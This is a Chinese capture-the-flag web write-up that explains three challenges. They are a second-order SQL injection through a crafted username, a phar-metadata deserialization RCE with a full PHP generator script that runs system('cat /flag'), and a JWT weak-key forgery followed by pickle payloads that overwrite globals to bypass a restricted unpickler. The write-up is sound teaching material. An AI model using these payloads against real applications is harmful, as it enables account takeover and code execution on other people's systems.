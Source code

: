 # Web

## 二次注入

这道题考察的是简单的二次SQL注入，出题壬希望同学们可以通过这道简单的例题初步了解二次SQL注入。

本题的预期内容还包含了通过robots.txt中的内容拿到源码，进行审计，不过似乎出题出的太简单了，大家都没用到。。。

在robots.txt里面包含了如下内容

```
User-agent: *
Disallow: /backup.zip
```

下载下来审计可以看的更明白一些。首先注册和登陆都不存在漏洞，出题壬也就掠过去不讲了，直接看修改密码的地方存在的漏洞

```php
$x=$db->execute("update users set password=? where username='$username' ",['s',&$password]);
```

这里直接将$username拼接到sql语句中了，而这个$username是在注册时选定的，因此想要实现注入，需要在注册的时候，就直接设定用户名为admin'-- -。

这样一来，登陆上去修改密码的时候，sql语句就成了

```sql
update users set password=? where username='admin' -- -'
```

(其中?指的是被绑定的参数，我们无论如何修改它都不会改变原本的语义)
而这个语句中username后面就成了admin' -- -',在MySQL中--[空格]是注释符，把SQL语句后面注释掉了，因此这句话相当于修改admin的密码。

因此在修改密码后登出，就可以用这个密码登陆admin账号获取flag了

## 反序列化？

相信大家看到问号应该知道这道题主要考的不是反序列化了吧（不会真有人在纠结反序列化吧）

### 解题方法

先观察`vulnerable.php`啊，主页上都提示了，发现了一个很显然能导致RCE的类，下面有一个`file_exists`函数，不会有人真觉得这边是检查上传文件是否成功吧。`file_exists`函数再检查phar包的时候会将其解析，利用这点进行代码执行。

使用如下代码生成一个phar包（带上gif文件头，因为上传那边会检查），然后修改后缀名上传即可，然后使用phar协议`phar://upload/xxx.gif`即可拿到flag。

```php

<?php

class Flag
{
    private $code;

    function __construct($my_code)
    {
        $this->code = $my_code;
    }

    function __destruct()
    {
        eval($this->code);
    }
}



$phar = new Phar('phar1.phar');
$phar->stopBuffering();
$phar->setStub('GIF89a' . '<?php __HALT_COMPILER();?>');
$phar->addFromString('test.txt', 'test');
$object = new Flag("system('cat /flag');");
$phar->setMetadata($object);
$phar->stopBuffering();

```

## ezcode

### 出题思路

考察JWT爆破、pickle反序列化的沙箱逃逸（变量篡改）。

### 解题过程

进入首页，跳转至登陆界面，要求输入token登陆。下面有个注册，先随便注册一个账号，返回了一个JWT。   
使用该JWT登陆进去，提示没有权限。尝试以admin注册账号，失败。很明显是要伪造admin账户的JWT。   
通过对之前注册的账号的JWT进行弱密钥爆破（直接用top1000就能爆破出来），得到加密密钥：`qwerty`，从而伪造admin账户的JWT。   
以admin登陆后，出现一个pickle在线工具，查看网页源码，有注释：

```python
want2know=xxx

class RestrictedUnpickler(pickle.Unpickler):
    blacklist = {
        'sys','eval', 'exec', 'execfile', 'compile', 'open', 'input', '__import__', 'exit','getattr'
        }

    def find_class(self, module, name):
        # Only allow safe classes from builtins.
        if module == "builtins" and name not in self.blacklist:
            return getattr(builtins, name)
        # Forbid everything else.
        raise pickle.UnpicklingError("global '%s.%s' is forbidden" %
                                     (module, name))

def restricted_loads(s):
    return RestrictedUnpickler(io.BytesIO(s)).load()

...

        pickle_data=request.form.get('data')
        
        if pickle_data==None:
            return open('templates/pickle.html').read()

        try:
            pickle_data=base64.b64decode(pickle_data.encode())


            op_blackli=[b'R']

            for op in op_blackli:
                if op in pickle_data:
                    return '数据非法！'+op.decode()
            data=restricted_loads(pickle_data)

        except Exception:
            
            return "请输入正确的数据格式！"

        try:
            secret=request.form.get('secret')
        except Exception:
            return open('templates/pickle.html')
        
        if want2know==secret:
            return flag
        else:
            return '欢迎使用HACHp1的pickle测试工具！'
    else:
        return '没有权限查看！\n'
```

很明显是pickle反序列化，限制了`builtins`模块，禁止了`R`执行函数，并且黑名单限制了一些敏感子模块，只要`want2know==secret`正确就能得到flag，这里可以通过`globals()`或`locals()`得到变量列表，通过`i`执行函数，修改列表达到篡改变量的目的，从而得到flag。一种可行的payload：

```python
b"(ibuiltins\nglobals\np0\n0g0\nS'want2know'\nS'hachp1'\ns."

# 或

b"(ibuiltins\nlocals\np0\n0g0\nS'want2know'\nS'hachp1'\ns."
```

推荐使用pker：

```python
glo_dic=INST('builtins','globals')
glo_dic['want2know']='hachp1'
return

# 或

glo_dic=INST('builtins','locals')
glo_dic['want2know']='hachp1'
return
```

### 非预期

由于本人忘记过滤`__getattribute__`造成出现了能getshell的非预期解，在这里惭愧一下。构造过程也比较有意思，有兴趣的师傅可以自己尝试。

